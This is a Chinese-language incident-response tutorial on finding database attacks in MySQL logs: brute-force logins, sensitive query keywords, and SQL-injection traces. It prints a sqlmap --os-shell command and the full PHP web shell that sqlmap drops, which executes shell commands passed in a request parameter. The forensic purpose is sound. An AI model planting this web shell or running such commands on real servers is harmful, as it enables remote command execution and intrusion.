 常见的数据库攻击包括弱口令、SQL注入、提升权限、窃取备份等。对数据库日志进行分析，可以发现攻击行为，进一步还原攻击场景及追溯攻击源。


# 0x01 Mysql日志分析
general query log能记录成功连接和每次执行的查询，我们可以将它用作安全布防的一部分，为故障分析或黑客事件后的调查提供依据。
```
1、查看log配置信息
show variables like '%general%';
2、开启日志
SET GLOBAL general_log = 'On';
3、指定日志文件路径
#SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
```

比如，当我访问 /test.php?id=1，此时我们得到这样的日志：
```
190604 14:46:14       14 Connect    root@localhost on 
           14 Init DB    test
           14 Query    SELECT * FROM admin WHERE id = 1
           14 Quit  `
```

我们按列来解析一下：
```
第一列:Time，时间列，前面一个是日期,后面一个是小时和分钟，有一些不显示的原因是因为这些sql语句几乎是同时执行的,所以就不另外记录时间了。
第二列:Id，就是show processlist出来的第一列的线程ID,对于长连接和一些比较耗时的sql语句,你可以精确找出究竟是那一条那一个线程在运行。
第三列:Command，操作类型，比如Connect就是连接数据库，Query就是查询数据库(增删查改都显示为查询)，可以特定过虑一些操作。
第四列:Argument，详细信息，例如 Connect    root@localhost on 意思就是连接数据库，如此类推,接下面的连上数据库之后,做了什么查询的操作。
```


## 0x02 登录成功/失败
我们来做个简单的测试吧，使用我以前自己开发的弱口令工具来扫一下，字典设置比较小，2个用户，4个密码，共8组。<br />![log-5-1.png](/_img\05-应急响应/1656919052336-b6e90c4a-9f61-4b96-834e-4b465bf06fea.png)

MySQL中的log记录是这样子：
```
Time                 Id        Command         Argument

190601 22:03:20	   98 Connect	root@192.168.204.1 on 
		   98 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  103 Connect	mysql@192.168.204.1 on 
		  103 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  104 Connect	mysql@192.168.204.1 on 
		  104 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Connect	root@192.168.204.1 on 
		  101 Connect	root@192.168.204.1 on 
		  101 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		   99 Connect	root@192.168.204.1 on 
		   99 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  105 Connect	mysql@192.168.204.1 on 
		  105 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Query	set autocommit=0
		  102 Connect	mysql@192.168.204.1 on 
		  102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Quit	`
```

你知道在这个口令猜解过程中，哪个是成功的吗？

利用爆破工具，一个口令猜解成功的记录是这样子的：
```
190601 22:03:20     100 Connect	root@192.168.204.1 on 
	   100 Query	set autocommit=0
	   100 Quit
```

但是，如果你是用其他方式，可能会有一点点不一样的哦。

Navicat for MySQL登录：
```
190601 22:14:07	  106 Connect	root@192.168.204.1 on 
		         106 Query	SET NAMES utf8
		         106 Query	SHOW VARIABLES LIKE 'lower_case_%'
		         106 Query	SHOW VARIABLES LIKE 'profiling'
		         106 Query	SHOW DATABASES
```

命令行登录：
```
190601 22:17:25	  111 Connect	root@localhost on 
		         111 Query	select @@version_comment limit 1
190601 22:17:56	  111 Quit
```

这个差别在于，不同的数据库连接工具，它在连接数据库初始化的过程中是不同的。通过这样的差别，我们可以简单判断出用户是通过连接数据库的方式。

另外，不管你是爆破工具、Navicat for MySQL、还是命令行，登录失败都是一样的记录。

登录失败的记录：
```
102 Connect	mysql@192.168.204.1 on 
102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
```

利用shell命令进行简单的分析：
```
#有哪些IP在爆破？
grep  "Access denied" mysql.log |cut -d "'" -f4|uniq -c|sort -nr
     27 192.168.204.1

#爆破用户名字典都有哪些？
grep  "Access denied" mysql.log |cut -d "'" -f2|uniq -c|sort -nr
     13 mysql
     12 root
      1 root
      1 mysql
```

在日志分析中，特别需要注意一些敏感的操作行为，比如删表、备库，读写文件等。关键词：drop table、drop function、lock tables、unlock tables、load_file() 、into outfile、into dumpfile。

敏感数据库表：SELECT _ from mysql.user、SELECT _ from mysql.func


# 0x03  SQL注入入侵痕迹
在利用SQL注入漏洞的过程中，我们会尝试利用sqlmap的--os-shell参数取得shell，如操作不慎，可能留下一些sqlmap创建的临时表和自定义函数。我们先来看一下sqlmap os-shell参数的用法以及原理：

1、构造一个SQL注入点，开启Burp监听8080端口<br />`sqlmap.py -u http://192.168.204.164/sql.php?id=1 --os-shell --proxy=http://127.0.0.1:8080`

HTTP通讯过程如下：<br />![log-5-3.png](/_img\05-应急响应/1656919075967-5f78b92f-ae44-42a3-b1db-d5d98494a707.png)

创建了一个临时文件tmpbwyov.php，通过访问这个木马执行系统命令，并返回到页面展示。
```
<?php $c=$_REQUEST["cmd"];@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);$z=@ini_get('disable_functions');if(!empty($z)){$z=preg_replace('/[, ]+/',',',$z);$z=explode(',',$z);$z=array_map('trim',$z);}else{$z=array();}$c=$c." 2>&1\n";function f($n){global $z;return is_callable($n)and!in_array($n,$z);}if(f('system')){ob_start();system($c);$w=ob_get_contents();ob_end_clean();}elseif(f('proc_open')){$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);$w=NULL;while(!feof($t[1])){$w.=fread($t[1],512);}@proc_close($y);}elseif(f('shell_exec')){$w=shell_exec($c);}elseif(f('passthru')){ob_start();passthru($c);$w=ob_get_contents();ob_end_clean();}elseif(f('popen')){$x=popen($c,r);$w=NULL;if(is_resource($x)){while(!feof($x)){$w.=fread($x,512);}}@pclose($x);}elseif(f('exec')){$w=array();exec($c,$w);$w=join(chr(10),$w).chr(10);}else{$w=0;}print "<pre>".$w."</pre>";?>`
```

创建了一个临时表sqlmapoutput，调用存储过程执行系统命令将数据写入临时表，然后取临时表中的数据展示到前端。

通过查看网站目录中最近新建的可疑文件，可以判断是否发生过sql注入漏洞攻击事件。

检查方法：<br />1、检查网站目录下，是否存在一些木马文件：<br />![log-5-4.png](/_img\05-应急响应/1656919105342-141fee66-82e9-4983-a2bf-1cb6393cb6a7.png)

2、检查是否有UDF提权、MOF提权痕迹

检查目录是否有异常文件<br />mysql\lib\plugin<br />c:/windows/system32/wbem/mof/

检查函数是否删除<br />`select * from mysql.func`

3、结合web日志分析。
